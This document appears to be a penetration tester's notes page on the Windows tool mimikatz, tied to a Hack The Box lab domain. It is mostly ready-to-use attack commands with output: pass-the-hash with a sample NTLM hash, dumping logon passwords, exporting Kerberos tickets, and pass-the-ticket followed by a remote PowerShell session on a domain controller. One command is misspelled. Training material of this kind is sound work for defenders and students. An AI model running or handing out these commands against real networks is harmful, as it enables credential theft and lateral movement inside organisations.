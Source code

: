 mimikatz
#########

Date: 2024-11-23 09:40

Status:

Description
*************

A tool for the Windows platform that can: - extract plaintext passwords
- extract hashes and PINS - perform Pass-the-hash - perform pass-the-pin
- build golden tickets

Installation
**************

Binaries for mimikatz can be found at:
https://github.com/gentilkiwi/mimikatz/releases

Usage
****** 

Pass the hash
================

Example 1: Simulate another user and run a shell

.. code-block:: console

   mimikatz.exe privilege::debug "sekurslas::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit"

Dump credentials
====================

Example 1: Dumping all logon passwords

.. code-block:: console 

   mimikatz # privilege::debug
   mimikatz # sekurlsa::logonPasswords full

Harvest All Kerberose Tickets
================================

Example 1: Requires local admin privileges

.. code-block:: console

   mimikatz # privilege::debug
   mimikatz # sekurlsa::tickets /export

Pass the Ticket for lateral movement
======================================

.. code-block:: console

   mimikatz # privilege::debug
   Privilege '20' OK

   mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

   * File: 'C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi': OK

   mimikatz # exit
   Bye!

   c:\tools>powershell
   Windows PowerShell
   Copyright (C) 2015 Microsoft Corporation. All rights reserved.

   PS C:\tools> Enter-PSSession -ComputerName DC01
   [DC01]: PS C:\Users\john\Documents> whoami
   inlanefreight\john
   [DC01]: PS C:\Users\john\Documents> hostname
   DC01
   [DC01]: PS C:\Users\john\Documents>

References
**************
https://github.com/gentilkiwi
https://academy.hackthebox.com/module/147/section/1638
